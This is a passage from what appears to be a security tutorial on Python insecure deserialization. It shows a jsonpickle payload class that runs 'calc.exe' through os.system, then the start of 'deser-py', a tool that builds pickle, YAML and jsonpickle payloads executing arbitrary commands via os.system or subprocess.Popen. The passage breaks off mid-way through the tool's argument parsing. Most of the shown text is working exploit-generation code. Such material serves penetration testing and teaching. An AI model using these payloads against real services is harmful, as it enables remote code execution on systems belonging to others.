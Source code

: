 ```python
import jsonpickle

class Payload:
    def __reduce__(self):
        return (os.system, ("cmd /c calc.exe",))
    
jsonpickle.encode(Payload())
```

That's seems interesting, but it would be nicer to generate serialized payloads without rewriting the code anytime a different command is needed, right? Below, a way to dynamically generate valid payloads for all the python modules listed above is presented.

#### Generate payloads dynamically: deser-py

The following tool, called **deser-py**, can be used to generate different payloads for pickle, yaml and jsonpickle. An updated version of the tool can be also downloaded [here](https://github.com/klezVirus/deser-py).

```python
import os
import _pickle
import subprocess
import jsonpickle
import sys
import yaml
import argparse


class Payload:
    def __init__(self, commands, vector=None):
        self.vector = vector
        self.commands = commands

    def __reduce__(self):
        if self.vector == "os":
            return os.system, (self.commands,)
        elif self.vector == "subprocess":
            return subprocess.Popen, (self.commands,)


def print_available_formats():
    available_formats = {
        "pickle": "Format for cPickle and _pickle modules",
        "json": "Format for jsonpickle module",
        "yaml": "Format for PyYAML module"
        }
    for k, v in available_formats.items():
        print(f"    {k}: {v}")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        description='deser-py - A simple serialization payload generator', add_help=True)

    parser.add_argument(
        '-d', '--debug', required=False, action='store_true', default=False,
        help='Enable debug messages')
    parser.add_argument(
        '-s', '--save', required=False, action='store_true', default=False,
        help='Save payload to file')
    parser.add_argument(
        '-v', '--vector', required=False, choices=["os", "subprocess"], default="os",
        help='Save payload to file')
    parser.add_argument(
```